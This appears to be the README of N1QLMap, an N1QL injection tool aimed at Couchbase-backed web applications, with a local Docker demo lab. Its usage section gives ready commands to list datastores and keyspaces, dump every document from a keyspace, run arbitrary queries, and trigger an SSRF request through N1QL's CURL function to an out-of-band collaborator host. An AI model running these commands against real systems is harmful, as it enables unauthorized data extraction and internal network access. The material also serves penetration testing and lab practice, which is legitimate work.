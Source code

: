 # Description

`N1QLMap` is an N1QL exploitation tool. Currently works with Couchbase database. The tool supports data extraction and performing SSRF attacks via CURL.

# Usage 

## Help

```
usage: n1qlMap.py [-h] [-r REQUEST] [-k KEYWORD] [--proxy PROXY] [--validatecerts] [-v]
                  (-d | -ks DATASTORE_URL | -e KEYSPACE_ID | -q QUERY | -c [ENDPOINT [OPTIONS ...]])
                  host

positional arguments:
  host                  Host used to send an HTTP request e.g. https://vulndomain.net

optional arguments:
  -h, --help            show this help message and exit
  -r REQUEST, --request REQUEST
                        Path to an HTTP request
  -k KEYWORD, --keyword KEYWORD
                        Keyword that exists in HTTP response when query is successful
  --proxy PROXY         Proxy server address
  --validatecerts       Set the flag to enforce certificate validation. Certificates are not validated by default!
  -v, --verbose_debug   Set the verbosity level to debug
  -d, --datastores      Lists available datastores
  -ks DATASTORE_URL, --keyspaces DATASTORE_URL
                        Lists available keyspaces for specific datastore URL
  -e KEYSPACE_ID, --extract KEYSPACE_ID
                        Extracts data from a specific keyspace
  -q QUERY, --query QUERY
                        Run arbitrary N1QL query
  -c [ENDPOINT [OPTIONS ...]], --curl [ENDPOINT [OPTIONS ...]]
                        Runs CURL N1QL function inside the query, can be used to SSRF
```
## Usage

1. Put an HTTP request to `request.txt` file. Mark an injection point using `*i*`. See `example_request_1.txt` file for a reference.
2. Use one the following commands.

Extracts datastores:
```sh
$ ./n1qlMap.py http://localhost:3000 --request example_request_1.txt --keyword beer-sample --datastores
```

Extracts keyspaces from the specific datastore ID:
```sh
$ ./n1qlMap.py http://localhost:3000 --request example_request_1.txt --keyword beer-sample --keyspaces "http://127.0.0.1:8091"
```

Extracts all documents from the given keyspace:
```sh
$ ./n1qlMap.py http://localhost:3000 --request example_request_1.txt --keyword beer-sample --extract travel-sample
```

Run arbitrary query:
```sh
$ ./n1qlMap.py http://localhost:3000 --request example_request_1.txt --keyword beer-sample --query 'SELECT * FROM `travel-sample` AS T ORDER by META(T).id LIMIT 1'
```

Perform CURL request / SSRF:
```sh
$ ./n1qlMap.py http://localhost:3000 --request example_request_1.txt --keyword beer-sample --curl *************j3mrt7xy3pre.burpcollaborator.net "{'request':'POST','data':'data','header':['User-Agent: Agent Smith']}"
```

# Demo

To play with the vulnerability you can spin Docker machines with Couchbase and NodeJS web application. If you already met the Requirements, just run the:

```sh
cd n1ql-demo
./quick_setup.sh
```

Now, you can run command described in `Usage` section against Dockerised web application.



# Requirements

`N1QLMap.py` script doesn't need any specific requirements apart of Python 3.

The following requirements are only for Demo provided in `n1ql-demo` directory.

* Docker
* Docker Compose

To install Docker and Docker Compose on Kali:
```sh
# Docker Installation
curl -fsSL https://download.docker.com/linux/debian/gpg | apt-key add -
echo 'deb [arch=amd64] https://download.docker.com/linux/debian buster stable' > /etc/apt/sources.list.d/docker.list
apt-get update

apt-get remove docker docker-engine docker.io
apt-get install docker-ce

# Start Docker Service
systemctl start docker

# Docker Compose Installation
sudo curl -L "https://github.com/docker/compose/releases/download/1.24.1/docker-compose-$(uname -s)-$(uname -m)" -o /usr/local/bin/docker-compose
sudo chmod +x /usr/local/bin/docker-compose
```

Let's test Docker:
```sh
docker run hello-world
```

